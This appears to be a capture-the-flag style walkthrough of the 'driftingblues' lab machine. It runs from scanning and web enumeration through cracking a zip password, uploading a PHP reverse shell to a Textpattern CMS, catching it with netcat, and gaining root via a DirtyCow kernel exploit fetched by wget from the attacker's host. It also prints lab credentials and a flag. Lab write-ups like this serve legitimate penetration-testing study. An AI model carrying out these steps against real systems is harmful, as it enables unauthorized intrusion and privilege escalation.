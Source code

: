 # [Recon]

```
=========================================================================
[OS]: Ubuntu
[Web-Technology]: Apache httpd 2.2.22
[Hostname]: driftingblues
[IP]:  192.168.209.219
[USERS]: Null
[CREDENTIALS]: mayer:lionheart
=========================================================================
```
-----------------------------------------------------------------------------

# [Scanning and Enumeration]

	[NMAP]

```

80/tcp open  http    syn-ack Apache httpd 2.2.22 ((Debian))
|_http-title: driftingblues
|_http-server-header: Apache/2.2.22 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
```

	[Web Enumeration]

```
--> Files
/robots.txt
/dp.png

--> Directories
/
/textpattern/textpattern/
/files/
/spammer
```

```
--> NITKO
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.156.219
+ Target Hostname:    192.168.156.219
+ Target Port:        80
+ Start Time:         2024-08-25 09:46:27 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Debian)
+ /: Server may leak inodes via ETags, header found with file /, inode: 14067, size: 750, mtime: Mon Mar 15 14:36:18 2021. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /textpattern/textpattern/: Cookie txp_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /textpattern/textpattern/: Retrieved x-powered-by header: PHP/5.5.38-1~dotdeb+7.1.
+ /robots.txt: Entry '/textpattern/textpattern/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: contains 1 entry which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.html. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ ERROR: Error limit (20) reached for host, giving up. Last error: 
+ Scan terminated: 1 error(s) and 10 item(s) reported on remote host
+ End Time:           2024-08-25 09:53:33 (GMT1) (426 seconds)
```

With all the above results,  the `/textpattern` seems to be a static web page that has nothing in it 
![[Pasted image 20240825123309.png]]
Also i noticed that the `/textpattern/textpattern/` endpoint is just a login page that requires a `username` and a `password`. I tried googling `Textpattern CMS default Creds` but nothing special.

![[Pasted image 20240825124138.png]]


the most interesting part it this `/spammer` endpoint which contains a `spammer.zip` file. and i downloaded the file and try to extract it but it is password protected.

![[Pasted image 20240825124526.png]]

```bash
unzip spammer.zip
zip2john spammer.zip > forjohn.txt
john forjohn.txt        # myspace4
unzip spammer.zip
```

And Boom there we go, we are able to obtain the login credential of `mayer:lionheart` which we can then use to login into the application. After loggin in i move around the `CMS` to look for things that can help me establish a reverse connection to my local system and without wasting much of the time i got it.

![[Pasted image 20240825122355.png]]

I uploaded a `php-reverse-shell.php` script and its works just fine without any error. We now, How do i trigger the payload i just uploaded. I need to figure out another endpoint that allows me to see where the exact location of the file i just uploaded. 


![[Pasted image 20240825122509.png]]

I have to `FUZZ` the `/textpattern/` endpoint. Then the result is as follows :arrowdown
![[Pasted image 20240825165311.png]]
 and on visiting the site via a browser. i do have access to the uploaded file and now all i have to do is just to trigger the payload by clicking on the `php-reverse-shell.php`. 

![[Pasted image 20240825122622.png]]

**Start up a Listener Locally  and Trigger the payload**
```bash
nc -lnvp 9001
```
![[Pasted image 20240825122916.png]]
# [Privilege-Escalation]

--> At this point, I tried lateral movement and basic privesc techniques to uncover more information but end up with nothing. So i decided to upload `linpeas.sh`. Upon uploading the linpeas.sh file and running it, Here we go lots and lots of vulnerabilities mostly `kernel exploits`. 

![[Pasted image 20240825113802.png]]
So i took the first one and did a google search [DirtyCow](https://www.exploit-db.com/exploits/40839) Copy the C code and save it locally as `dirtycow.c`. 
```bash
cd /var/tmp
wget http://192.168.45.224:8000/dirtycow.c
gcc -pthread dirtycow.c -o dirty -lcrypt
chmod +x dirty
./dirty   # password: password
su firefart
```

![[Pasted image 20240825120445.png]]

# [Take away Concept]
```
=========================================================================
* Always use different tools for the job
* look for CVEs related information [linpeas result]

=========================================================================
```

# [Flags]

`local.txt : `
`proof.txt : ae8a61b0de732ab2fe5217e608255a93`